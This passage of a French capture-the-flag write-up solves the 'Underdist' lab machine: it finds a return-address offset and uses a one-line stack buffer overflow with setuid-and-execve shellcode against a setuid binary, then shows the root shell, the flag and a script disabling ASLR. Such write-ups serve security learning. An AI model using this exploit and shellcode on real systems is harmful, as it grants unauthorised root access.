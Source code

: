 L'adresse de retour est à l'offset 304 suivie par l'adresse pour esp :

```python
>>> import struct
>>> struct.pack("<I", 0x64616162)
b'baad'
>>> g.find(struct.pack("<I", 0x64616162))
(304, 0, 304)
>>> g.find(b"caad")
(308, 0, 308)
```

Un one-liner suffit pour exploiter le binaire. Le shellcode est un setuid 0 + execve ( https://www.exploit-db.com/exploits/13359 ) :

```bash
underdist@Underdist:~$ .bin/echo `python -c 'print "A"*304 + "\x35\xca\xe8\xb7" + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA5���jX1�̀j
                                                                                                       X�Rh//shh/bin��RS��̀
# id
uid=0(root) gid=1000(underdist) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(underdist)
# cd /root
# ls
flag.txt  r.sh
# cat flag.txt


                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`


                        http://underc0de.org



Felicidades H4x0r! resolviste el reto!

Mandame tu solucionario a: a.denegado@gmail.com

# cat r.sh
#!/bin/bash

echo 0 > /proc/sys/kernel/randomize_va_space
```

*Publié le 1er janvier 2023*
